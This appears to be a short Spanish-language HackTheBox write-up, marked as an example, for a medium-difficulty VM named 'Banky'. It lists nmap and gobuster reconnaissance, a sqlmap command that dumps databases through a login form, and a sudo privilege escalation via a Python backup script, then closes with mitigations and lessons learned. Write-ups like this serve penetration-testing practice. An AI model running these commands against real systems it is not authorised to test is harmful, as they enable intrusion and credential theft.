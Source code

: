 ```yaml
---
title: "Writeup - VM Ejemplo: Banky"
date: "2025-10-01"
platform: "HackTheBox"
difficulty: "medio"
tags: ["web","sql-injection","nmap"]
slug: "banky-hackthebox"
hours_spent: 5
---
```


# Writeup - VM Ejemplo: Banky

**Fecha:** 2025-10-01 • **Plataforma:** HackTheBox • **Dificultad:** medio • **Horas:** 5

## TL;DR
Explotación de SQL injection para obtener acceso administrativo y posterior escalada de privilegios mediante vulnerabilidad de sudo.

## Entorno
VM local de HackTheBox. **REDACTADO** cualquier IP real o credencial.

## Reconocimiento
```bash
nmap -sC -sV 10.10.10.100
```
```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1
80/tcp open  http    Apache httpd 2.4.29
```
```bash
gobuster dir -u http://10.10.10.100 -w /usr/share/wordlists/dirb/common.txt
```
Se descubrió panel de login en /admin.

## Explotación (laboratorio)
Uso de sqlmap para identificar y explotar vulnerabilidad SQLi:
```bash
sqlmap -u "http://10.10.10.100/login.php" --data="username=admin&password=test" --dbs
```
Se extrajeron credenciales de la base de datos.

## Post-explotación
Obtención de shell reverso y escalada mediante vulnerabilidad de sudo:
```bash
sudo -l
sudo /usr/bin/python3 /opt/scripts/backup.py
```
## Limpieza y mitigaciones
Validación de entrada en formularios

Uso de prepared statements

Actualización del sistema

Restricción de permisos sudo

## Lecciones aprendidas
Importancia de la validación de entrada y el principio de mínimo privilegio. Referencia: OWASP SQL Injection Prevention Cheat Sheet.
